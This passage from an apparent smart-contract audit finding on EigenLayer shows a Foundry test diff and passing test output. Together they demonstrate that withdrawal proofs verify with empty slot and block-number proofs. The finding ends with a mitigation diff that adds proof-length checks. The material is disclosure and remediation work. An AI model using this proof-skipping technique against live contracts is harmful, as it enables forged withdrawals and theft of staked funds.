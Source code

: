 ```diff
             beaconChainOracle.setBeaconChainStateRoot(beaconStateRoot);
             bytes32 blockHeaderRoot = getBlockHeaderRoot();
             bytes32 blockBodyRoot = getBlockBodyRoot();
-            bytes32 slotRoot = getSlotRoot();
-            bytes32 blockNumberRoot = getBlockNumberRoot();
+            bytes32 slotRoot = (proofType == FULL_PROOF) ? getSlotRoot() : blockHeaderRoot; // else SKIP_SLOT_BLOCK_PROOF
             bytes32 executionPayloadRoot = getExecutionPayloadRoot();
+            bytes32 blockNumberRoot = (proofType == FULL_PROOF) ? getBlockNumberRoot() :  executionPayloadRoot; // else SKIP_SLOT_BLOCK_PROOF



@@ -786,9 +790,9 @@ contract EigenPodTests is ProofParsing, EigenPodPausingConstants {
             BeaconChainProofs.WithdrawalProofs memory proofs = BeaconChainProofs.WithdrawalProofs(
                 abi.encodePacked(getBlockHeaderProof()),
                 abi.encodePacked(getWithdrawalProof()),
-                abi.encodePacked(getSlotProof()),
+                (proofType == FULL_PROOF) ? abi.encodePacked(getSlotProof()) : bytes(""), // else SKIP_SLOT_BLOCK_PROOF
                 abi.encodePacked(getExecutionPayloadProof()),
-                abi.encodePacked(getBlockNumberProof()),
+                (proofType == FULL_PROOF) ? abi.encodePacked(getBlockNumberProof()) : bytes(""), // else SKIP_SLOT_BLOCK_PROOF
                 uint64(blockHeaderRootIndex),
                 uint64(withdrawalIndex),
                 blockHeaderRoot,

```

We can see that **all** the test cases are still passing, whereby the following ones are confirming the aforementioned outcomes:

    [PASS] testFullWithdrawalFlow():(address) (gas: 28517915)
    [PASS] testFullWithdrawalProof() (gas: 13185538)
    [PASS] testPartialWithdrawalFlow():(address) (gas: 28679149)
    [PASS] testProvingMultipleWithdrawalsForSameSlot() (gas: 45502286)

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

Require a minimum length (tree height) for the slot and block number proofs in [BeaconChainProofs.verifyWithdrawalProofs(beaconStateRoot, proofs, withdrawalFields)](https://github.com/code-423n4/2023-04-eigenlayer/blob/5e4872358cd2bda1936c29f460ece2308af4def6/src/contracts/libraries/BeaconChainProofs.sol#L245-L295).

At least require non-empty proofs according to the following *diff*:

```diff
diff --git a/src/contracts/libraries/BeaconChainProofs.sol b/src/contracts/libraries/BeaconChainProofs.sol
index b4129bf..119baf2 100644
--- a/src/contracts/libraries/BeaconChainProofs.sol
+++ b/src/contracts/libraries/BeaconChainProofs.sol
@@ -259,6 +259,10 @@ library BeaconChainProofs {
             "BeaconChainProofs.verifyWithdrawalProofs: withdrawalProof has incorrect length");
         require(proofs.executionPayloadProof.length == 32 * (BEACON_BLOCK_HEADER_FIELD_TREE_HEIGHT + BEACON_BLOCK_BODY_FIELD_TREE_HEIGHT),
             "BeaconChainProofs.verifyWithdrawalProofs: executionPayloadProof has incorrect length");
+        require(proofs.slotProof.length >= 32,
+            "BeaconChainProofs.verifyWithdrawalProofs: slotProof has incorrect length");
```
